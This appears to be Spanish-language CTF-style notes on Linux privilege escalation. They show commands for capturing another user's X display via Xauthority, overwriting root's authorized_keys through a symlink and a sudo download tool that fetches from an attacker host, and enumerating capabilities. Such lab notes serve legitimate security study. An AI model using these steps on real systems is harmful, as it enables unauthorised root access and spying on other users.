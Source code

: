 # Escalada

## Abuso de Xauthority

### Listar sesiones activas
```null
alex@squashed:/home/alex$ w
 15:06:33 up  8:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               06:21    8:45m 46.16s  0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

### Verificar la conexión
```null
xdpyinfo -display <DISPLAY>
```

### Capturar pantalla
```null
xwd -root -screen -silent -display <DISPLAY> > screenshot.xwd
```

### Conexión con vncviewer

```null
proxychains vncviewer -passwd secret localhost:5901
```

## Abuso de binarios sudoers

## Netutils

Creación de enlace simbólico de mi clave pública a las authorized_keys de otro usuario

```null
ln -s -f /root/.ssh/authorized_keys id_rsa.pub
```

```null
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.16.2/cmd.jpg
Initializing download: http://10.10.16.2/cmd.jpg
File size: 33 bytes
Opening output file cmd.jpg.0
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 33 byte in 0 seconds. (0.04 KB/s)
```

## Capabilities

### Enumeración

```null
getcap -r / 2>/dev/null
```

